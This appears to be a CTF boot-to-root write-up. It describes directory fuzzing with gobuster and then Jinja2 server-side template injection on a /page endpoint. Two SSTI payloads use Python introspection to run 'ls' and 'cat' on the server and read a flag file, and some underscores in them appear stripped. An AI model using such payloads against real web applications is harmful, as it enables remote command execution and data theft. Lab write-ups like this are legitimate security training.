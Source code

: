<img width="870" height="458" alt="image" src="https://github.com/user-attachments/assets/dd5b1617-dfea-4dd6-acb5-7a22af427b99" />## Challenge 1: Boot-2-Root : FLAG 1
<img width="529" height="943" alt="image" src="https://github.com/user-attachments/assets/b57fafcc-f574-4601-adc6-f204dfbb427d" />


Then gobuster to fuzz the website

<img width="870" height="458" alt="image" src="https://github.com/user-attachments/assets/dc6c66c6-af30-4b3e-ba86-a0e88b510f28" />

So we found /page exists, next we went into that site
It was like this,
<img width="839" height="286" alt="image" src="https://github.com/user-attachments/assets/02363902-0443-4740-8707-51672459a779" />
So we used SSTI injection to find the list of files
`{{ ''._class.mro[1].subclasses()[122].init.globals['builtins']['import_']('os').popen('ls').read() }}`
<img width="869" height="383" alt="image" src="https://github.com/user-attachments/assets/568e72db-e256-49c1-9ec1-d3c2011da64f" />

So we have found that there is a file named Fl4@G_0n3.txt.
Then I used the payload to print the contents of the file Fl4@G_0n3.txt
`{{ ''._class.mro[1].subclasses()[122].init.globals['builtins']['import_']('os').popen('cat Fl4@G_0n3.txt').read() }}`
Hence we got the flag!
<img width="445" height="196" alt="image" src="https://github.com/user-attachments/assets/c2fb057e-33ab-4b94-81a2-69d3548782e8" />

